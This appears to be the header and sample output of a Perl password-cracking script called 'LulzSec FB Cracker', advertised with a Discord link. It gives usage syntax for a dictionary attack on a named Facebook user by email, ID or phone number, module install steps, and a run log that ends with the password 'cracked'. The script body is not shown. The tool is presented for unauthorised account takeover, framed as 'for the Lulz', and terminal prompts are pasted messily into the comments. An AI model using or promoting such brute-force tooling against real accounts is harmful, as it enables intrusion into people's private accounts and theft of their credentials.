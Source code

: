 #######################################################
# Join us for more tools : https://discord.gg/UUs8eb
#######################################################
# Description:
# LulzSec FB Cracker ToolKit Bruter V0.1 tool written in perl to perform a dictionary-based attack on a specific Facebook user,
#through HTTPS.
# Only For The Lulz ;)
# Usage:
# perl LulzFBKill.pl email/id wordlist
# login could be either a users email address or profile name / Phone number / ID
#
# Module Requirements:
┌─[root@parrot]─[~]
└──╼ # apt clean
┌─[root@parrot]─[~]
└──╼ # apt update
# Install module if missing:
┌─[root@p arrot]─[~]
└──╼ # perl -MCPAN -e 'install Net::SSLeay'
#######################################################
#
# [+] Lulz Start Cracking THF-Targe using ID or EMail or Phone numnber ...
#
# [-] test -> Failed >> Check Your password List and Try agine
# [-] test123 -> Failed >> Check Your password List and Try agine
# [-] testtest -> Failed >> Check Your password List and Try agine
# [-] testest123 -> Failed >> Check Your password List and Try agine
# [-] qwerty -> Failed >> Check Your password List and Try agine
# [-] azerty -> Failed >> Check Your password List and Try agine
# [-] password -> Failed >> Check Your password List and Try agine
# [-] password123 -> Failed >> Check Your password List and Try agine
# 
########################################################
# [+] Luulz!! Pass Cracked => Pass is ***********
########################################################
